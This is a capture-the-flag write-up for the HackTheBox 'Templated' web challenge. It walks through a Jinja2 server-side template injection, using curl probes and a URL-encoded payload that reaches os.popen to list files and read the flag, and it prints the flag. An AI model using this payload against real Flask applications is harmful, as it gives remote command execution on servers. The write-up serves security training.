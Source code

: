 1. Visit web site

![web.PNG](/assets/Challenges/Web/Templated/web.PNG)

* We have a important information in this short message. **Site is build with Flask/Jinja2**
* When you found this you think in `SSTI attack`


2. If you visit any directory in web you get this message
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Challenges/Templated]
└─| curl -s -X GET "<Machine Instance>/test"
```

**Output**
```html
<h1>Error 404</h1>
<p>The page '<str>test</str>' could not be found</p>
```
* We can get the name of directory in `<str>` labels.
* Try with this way a SSTI

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Challenges/Templated]
└─| curl -s -X GET '68.183.47.198:31602/\{\{7*7\}\}'
```

* **Note:** Escape especial characters with `\` to avoid errors.

**Output**
```html
<h1>Error 404</h1>
<p>The page '<str>49</str>' could not be found</p>
```
* In labels `<str>` we obtain **49**


3. Visit [HackTricks](https://book.hacktricks.xyz/welcome/readme) and search for **SSTI Jinja**

4. Test all ways

* **Command:** `{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}` 

* Put this command in web browser like this:
```url
http://<Machine Instance>/%7B%7B%20config.__class__.from_envvar.__globals__.__builtins__.__import__(%22os%22).popen(%22ls%22).read()%20%7D%7D
```

**Output**

![ssti.PNG](/assets/Challenges/Web/Templated/ssti.PNG)

5. Show flag
```url
http://<Machine Instance>/%7B%7B%20config.__class__.from_envvar.__globals__.__builtins__.__import__(%22os%22).popen(%22cat%20flag.txt%22).read()%20%7D%7D
```

**Output**
```bash
HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}
```



